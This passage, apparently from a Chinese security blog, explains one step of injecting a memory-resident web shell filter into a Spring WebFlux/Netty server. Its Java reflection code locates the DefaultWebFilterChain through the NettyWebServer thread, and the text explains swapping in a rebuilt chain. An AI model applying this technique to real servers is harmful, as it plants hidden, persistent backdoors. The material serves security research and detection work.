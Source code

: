 上面就是创建两个 WebFilter 实现类，以及调用这两个 filter 类的流程

根据前面找到的 chain 在线程中的位置，通过反射进行获取

```bash
Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                if (thread.getClass().getName().contains("NettyWebServer")) {
                    // 获取 NettyWebServer
                    NettyWebServer this$0 = (NettyWebServer) getField(thread, "this$0");
                    // 获取 ReactorHttpHandlerAdapter
                    ReactorHttpHandlerAdapter handler = (ReactorHttpHandlerAdapter) getField(this$0, "handler");
                    // 获取 WebServerManager$DelayedInitializationHttpHandler
                    Object httpHandler = getField(handler, "httpHandler");
                    // 获取 HttpWebHandlerAdapter
                    Object delegate = getField(httpHandler, "delegate");
                    // 获取 ExceptionHandlingWebHandler
                    Object delegate1 = getField(delegate, "delegate");
                    // 获取 FilteringWebHandler
                    Object delegate2 = getField(delegate1, "delegate");
                    // 获取 DefaultWebFilterChain
                    DefaultWebFilterChain chain = (DefaultWebFilterChain) getField(delegate2, "chain");
```

根据前面提到的，直接反射修改`chain#allFilters`是不能够进行 filter 链的调用的，我们在跟进了 filter chain 的创建流程，可以知道其是通过`DefaultWebFilterChain`的构造方法，进而通过`initChain`形成了链子

我们这里可以通过构造一个新的`DefaultWebFilterChain`对象，之后将新构建的对象反射写入到`FilteringWebHandler`类对象的`chain`属性中

[![](assets/1698914691-dec64c9c979a7cdbebd8dd998d894dbf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225642-deabd2fa-78c6-1.png)
